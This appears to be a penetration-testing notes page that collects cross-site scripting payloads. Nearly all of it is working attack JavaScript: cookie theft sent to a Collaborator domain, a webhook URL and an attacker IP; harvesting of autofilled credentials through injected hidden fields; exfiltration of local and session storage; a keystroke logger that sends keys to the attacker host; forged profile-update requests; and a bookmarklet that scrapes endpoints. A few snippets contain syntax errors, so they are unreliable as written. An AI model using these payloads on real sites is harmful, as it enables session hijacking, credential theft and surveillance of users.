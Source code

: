 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Payloads

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)
{% endhint %}

## Stealing Cookies

{% tabs %}
{% tab title="img" %}
```javascript
<img src="http://localhost?c='+document.cookie+'" />
```
{% endtab %}

{% tab title="fetch" %}
```javascript
fetch("http://localhost?c="+document.cookie);
```
{% endtab %}

{% tab title="Collaborator" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', 
    {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```
{% endtab %}

{% tab title="Webhook" %}
{% code overflow="wrap" %}
```javascript
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}
{% endtab %}

{% tab title="external" %}
{% code title="xss.js" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)
// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Autofilled Credentials

{% tabs %}
{% tab title="createForm.js" %}
{% code title="createForm.js" overflow="wrap" %}
```javascript
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"

let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"

// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function() {
 console.log("Username:", document.getElementById("username").value)
 console.log("Password:", document.getElementById("password").value)
}, 1000);
```
{% endcode %}
{% endtab %}

{% tab title="savedCreds.js" %}
{% code title="savedCreds.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Local Secrets

{% tabs %}
{% tab title="Local Storage" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}

{% tab title="Session Storage" %}
```javascript
let data = JSON.stringify(sessionStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}
{% endtabs %}

## Session Riding

{% tabs %}
{% tab title="XMLHttpRequest" %}
```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```
{% endtab %}
{% endtabs %}

## Keylogging

{% tabs %}
{% tab title="Log keypresses" %}
```javascript
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
{% endtab %}

{% tab title="Fetch keypresses" %}
{% code title="keylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}
// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Remote Resources

{% tabs %}
{% tab title="fetch" %}
```javascript
fetch('http://localhost/endpoint’)
```
{% endtab %}

{% tab title="img" %}
```javascript
<img src='http://localhost/file' />
<img src='x' onerror='http://localhost/file' />
<img src="x" onerror="window.location.href='http://localhost/file'">
```
{% endtab %}

{% tab title="script" %}
```javascript
<script src='http://localhost/file'></script>
```
{% endtab %}
{% endtabs %}

## Sorcery?

{% tabs %}
{% tab title="?" %}
{% code overflow="wrap" %}
```javascript
javascript:(function(){var scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const%20results=new%20Set;for(var%20i=0;i<scripts.length;i++){var%20t=scripts[i].src;""!=t&&fetch(t).then(function(t){return%20t.text()}).then(function(t){var%20e=t.matchAll(regex);for(let%20r%20of%20e)results.add(r[0])}).catch(function(t){console.log("An%20error%20occurred:%20",t)})}var%20pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const%20match%20of%20matches)results.add(match[0]);function%20writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
```
{% endcode %}
{% endtab %}
{% endtabs %}
